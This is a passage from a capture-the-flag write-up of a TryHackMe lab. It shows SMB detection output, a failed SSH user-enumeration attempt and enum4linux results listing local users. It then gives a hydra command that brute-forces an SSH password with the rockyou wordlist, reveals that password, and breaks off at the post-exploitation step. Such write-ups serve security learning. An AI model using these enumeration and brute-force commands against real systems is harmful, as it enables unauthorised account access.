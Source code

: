 Output:

Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:LZNT1)
(encryption capabilities:AES-128-CCM) (signatures:optional)
(guid:{5f6d6874-7865-6c70-6f69-740000000000}) (authentication domain:THM_EXPLOIT)

A nice article:
[nullbyte](https://null-byte.wonderhowto.com/how-to/enumerate-smb-with-enum4linux-smbclient-0198049/)

#### Port 22

After failing at enumerating SMB I checked if the ssh version was vulnerable

7.6p1 is vulnerable to user enumeration

```bash
use auxiliary/scanner/ssh/ssh_enumusers
```

But it din't work.

After trying everything I could. I read the write-up for the foothold.
Apparently **enum4linux** should have returned valid users but it's broken
My gosh.

The supposing results where:

```bash
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-2007993849-1719925537-2372789573
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kel (Local User)
S-1-22-1-1001 Unix User\des (Local User)
S-1-22-1-1002 Unix User\tryhackme (Local User)
S-1-22-1-1003 Unix User\noentry (Local User)
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-1000 *unknown*\*unknown* (8)
S-1-5-32-1001 *unknown*\*unknown* (8)
S-1-5-32-1002 *unknown*\*unknown* (8)
S-1-5-32-1003 *unknown*\*unknown* (8)
```

## Exploitation

Using **hydra** I brute forced the password in a few minutes

```bash
hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt -t 4 binex ssh
```

The password is: `thebest`

## Post Exploitation

Let's now find the SUID bit set binaries:

